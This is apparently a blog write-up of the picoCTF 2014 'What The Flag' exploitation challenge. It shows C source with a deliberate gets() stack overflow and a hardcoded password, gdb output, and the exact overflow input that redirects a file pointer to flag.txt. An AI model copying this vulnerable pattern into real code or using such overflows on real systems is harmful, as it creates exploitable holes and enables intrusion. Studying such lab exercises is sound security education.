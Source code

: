 ```yaml
---
layout: post
title: "picoCTF 2014 What The Flag"
date: 2014-11-07 20:03:22 -0500
author: [superkojiman]
comments: true
categories: [picoctf]
---
```


### Solved by superkojiman

What the flag is a 140 point exploitation challenge. 

> This binary uses stack cookies to prevent exploitation, but all hope is not lost. Read the flag from flag.txt anyways! The binary can be found at /home/what_the_flag/ on the shell server. You can solve this problem interactively here. The source can be found here.

This challenge is interesting in that it gives us a neat interface to solve it. Here's how it looks:

![](/images/2014/pico/what_the_flag/01.png)

We're given the source code for the binary:

```c
#include <stdlib.h>
#include <stdio.h>

struct message_data{
    char message[128];
    char password[16];
    char *file_name;
};

void read_file(char *buf, char *file_path, size_t len){
    FILE *file;
    if(file= fopen(file_path, "r")){
        fgets(buf, len, file);
        fclose(file);
    }else{
        sprintf(buf, "Cannot read file: %s", file_path);
    }
}

int main(int argc, char **argv){
    struct message_data data;
    data.file_name = "not_the_flag.txt";

    puts("Enter your password too see the message:");
    gets(data.password);

    if(!strcmp(data.password, "1337_P455W0RD")){
        read_file(data.message, data.file_name, sizeof(data.message));
        puts(data.message);
    }else{
        puts("Incorrect password!");
    }

    return 0;
}
```

We basically need to enter the password "1337_P455W0RD" and and somehow manage to overwrite the file pointer so that it reads the flag. Let's see what happens when we run the program and provide the expected password:

```text
pico1139@shell:/home/what_the_flag$ ./what_the_flag
Enter your password too see the message:
1337_P455W0RD
Cannot read file: not_the_flag.txt
```

According to the interactive page, we can start overwriting the file pointer by passing in another 3 bytes after the password.

![](/images/2014/pico/what_the_flag/02.png)

So what should we overwrite it to? We want flag.txt, so all we need to do is find the address of flag.txt from not_the_flag.txt. 

```
pico1139@shell:/home/what_the_flag$ gdb -q what_the_flag
Reading symbols from what_the_flag...(no debugging symbols found)...done.
(gdb) br *puts
Breakpoint 1 at 0x8048460
(gdb) x/s 0x08048777
0x8048777:  "not_the_flag.txt"
(gdb) x/s 0x0804877f
0x804877f:  "flag.txt"
```

So we'll ovewrite the file pointer with 0x804877f to make it read flag.txt. From gets()'s manual:

> gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0'). No check for buffer overrun is performed (see BUGS below).

So by using the following input, we can overwrite the file pointer and still provide the correct password: 

```
1337_P455W0RD\0aa\x7f\x87\x04\x08
```

Punch it into the interactive page and we get the flag:

![](/images/2014/pico/what_the_flag/03.png)

The flag is **who_needs_%eip**
